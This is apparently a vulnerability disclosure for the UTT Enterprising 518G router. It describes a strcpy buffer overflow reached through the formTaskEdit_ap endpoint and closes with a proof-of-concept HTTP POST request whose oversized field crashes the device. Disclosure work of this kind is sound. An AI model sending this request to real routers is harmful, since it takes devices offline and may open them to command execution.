



# Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 518G

**Affected firmware version:**  <=V3v3.2.7-210919-161313

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2753)

# Overview

UTT product Enterprising 518G router has a serious overflow vulnerability that allows an attacker to send a malicious HTTP post message through url /goform/formTaskEdit_ap to trigger the vulnerability, resulting in a denial of service attack or even arbitrary command execution, which can be achieved through "strcpy((char *)(InstPointByIndex + 232), src); " to be realized

# Vulnerability details

The API for invoking the function



Here are some parameters such as IDs



When src_6 is not 01, the buffer overflow can be triggered



# POC

```
POST /goform/formTaskEdit_ap HTTP/1.1
Host: 192.168.1.1
Content-Length: 1822
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="80758026511f147977ce8ea9363e038c", uri="/goform/formArpBindGlobalConfig", algorithm=MD5, response="3c90b3b4d198905f88cf1301ff8ad6b5", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000001a1, cnonce="71e33390dc75c484"
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/IPMac.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zhcn; utt_bw_rdevType=; td_cookie=2522114788
Connection: close

Action=add&ID=123&selDateType=02&txtMin2=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

